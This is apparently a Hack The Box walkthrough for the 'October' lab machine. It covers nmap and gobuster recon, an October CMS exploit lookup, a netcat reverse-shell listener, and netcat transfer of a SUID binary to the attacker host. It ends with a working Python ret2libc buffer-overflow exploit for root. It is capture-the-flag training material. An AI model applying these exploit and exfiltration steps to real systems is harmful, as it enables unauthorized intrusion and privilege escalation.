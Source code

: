 # October Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA october 10.10.10.16 -T4``

![image](https://user-images.githubusercontent.com/123066149/228842989-9c33449e-596b-4a3e-89db-d4963ed5ca07.png)

``sleep 200; nmap -p- -sV -T4 -oA fulloctober 10.10.10.16``

![image](https://user-images.githubusercontent.com/123066149/228843209-b6fbd08e-23f9-456e-b4f0-95e8ead1bd12.png)

``gobuster dir -u http://10.10.10.16/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt``

![image](https://user-images.githubusercontent.com/123066149/228845053-f2490276-2876-46b8-8247-a570d05fd902.png)

# ${{\color{purple}Initial Foothold}}\ $

![image](https://user-images.githubusercontent.com/123066149/228845266-0904b020-a36c-4e3c-87ee-0fc0bade3191.png)

![image](https://user-images.githubusercontent.com/123066149/228845324-aaa12122-0842-4bde-934c-be5c4f271f22.png)

``searchsploit october CMS``

![image](https://user-images.githubusercontent.com/123066149/228845514-7d1c136d-d33f-498b-88f5-b899f22b2e42.png)

``searchsploit -x php/remote/47376.rb | grep URL``

![image](https://user-images.githubusercontent.com/123066149/228846440-2c797231-441d-41dd-9eff-33fbd0c232bb.png)

![image](https://user-images.githubusercontent.com/123066149/228846964-01f906b4-012b-4b15-93f2-163d87fbbca8.png)

![image](https://user-images.githubusercontent.com/123066149/228847236-78e4ba05-4dae-4a31-a2ff-5221fb294127.png)

# ${{\color{purple}Exploitation}}\ $

![image](https://user-images.githubusercontent.com/123066149/228847588-dec9ee25-1d81-47f3-8850-23dcf10552ec.png)

``nc -nlvp 1234``

![image](https://user-images.githubusercontent.com/123066149/228847746-c2c5a1ef-1756-4ded-a5b2-c4cd953cd5c1.png)

# ${{\color{purple}Privilege Escalation}}\ $

https://ravi5hanka.medium.com/privilege-escalation-in-linux-via-a-local-buffer-overflow-dcee4f9b4a49

``find / -perm -4000 2>/dev/null``

![image](https://user-images.githubusercontent.com/123066149/228848043-e31e5e3a-e793-4f11-8e72-3cd151bb67ff.png)

### Transfert file from client to kali

``nc -w 5 10.10.14.3 999 < /usr/local/bin/ovrflw``

``nc -l -p 999 > ovrfl``

![image](https://user-images.githubusercontent.com/123066149/228850260-f2eabad3-353c-4757-83b9-52b18d1d9a92.png)

### Check integrity:

``md5sum ovflw ``

![image](https://user-images.githubusercontent.com/123066149/228850724-35bd36f6-0ddd-4f8c-8bb7-30472dc50f50.png)

### Check kernel version:

``uname -a ``

![image](https://user-images.githubusercontent.com/123066149/228850943-6b897819-d22e-4c2c-a667-90a9f193c75a.png)

``cat /etc/lsb-release``

![image](https://user-images.githubusercontent.com/123066149/228850983-e5219221-7604-4f83-ac42-eeb87c148b9a.png)

![image](https://user-images.githubusercontent.com/123066149/228851291-86389ba2-23d9-4982-93f9-9bc4544c026f.png)

``/usr/local/bin/ovrflw``

![image](https://user-images.githubusercontent.com/123066149/228851397-4db84aab-b7d8-438c-b94f-75d7ab251710.png)

``gdb ovrfl``

``disas main``

![image](https://user-images.githubusercontent.com/123066149/228851968-26270622-8120-446d-846e-23d5ad02dbd0.png)

``msf-pattern_create -l 300``

![image](https://user-images.githubusercontent.com/123066149/228852426-077a99ae-7fac-4fad-956c-e9aced1953c4.png)

![image](https://user-images.githubusercontent.com/123066149/228852654-a2249290-a840-4a6f-b924-265731a8b713.png)

![image](https://user-images.githubusercontent.com/123066149/228948787-fdb9da19-c7d3-4e21-9a6a-3fce64a43c4e.png)

![image](https://user-images.githubusercontent.com/123066149/228948867-48228b79-0142-4535-90d6-2d3629a51438.png)

### Get system address

``p system``

### Check ASLR

``ldd /usr/local/bin/ovrflw | grep libc`` 


![image](https://user-images.githubusercontent.com/123066149/228949233-724b39da-cd64-49a7-be5b-31443bf8c213.png)


### Find system address :

``readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system``

![image](https://user-images.githubusercontent.com/123066149/228949395-2beecb7d-3929-44ec-855e-604195002920.png)

### Find exit address :

``readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit``

![image](https://user-images.githubusercontent.com/123066149/228949547-9236cd8b-52e2-43db-847d-37d20999e552.png)

### Find /bin/sh address :

``strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh``

![image](https://user-images.githubusercontent.com/123066149/228949734-9e4e3f38-e4fb-4eb7-a9e4-cb9c3b3a7b94.png)

### The exploit :

![image](https://user-images.githubusercontent.com/123066149/228950185-e462d734-0323-4e7c-ba7a-6949d30c7bd1.png)


#!/usr/bin/python3

from struct import pack
from subprocess import call

offset = 112
junk = b"A"*offset

#ret2libc -> system_addr + exit_addr + bin_sh_addr

base_libc_addr = 0xb7602000

system_addr_off = 0x00040310
exit_addr_off = 0x00033260
bin_sh_addr_off = 0x00162bac

system_addr = pack("<L", base_libc_addr + system_addr_off)
exit_addr = pack("<L",base_libc_addr + exit_addr_off)
bin_sh_addr = pack("<L", base_libc_addr + bin_sh_addr_off)

payload = junk + system_addr + exit_addr + bin_sh_addr

while True:
        ret = call(["/usr/local/bin/ovrflw", payload])

![image](https://user-images.githubusercontent.com/123066149/228951637-17575ac8-fadd-452c-85f2-dba0fdf82327.png)

        
# ${{\color{purple}Point of Improvement}}\ $

* Make a very good list with ``gobuster``

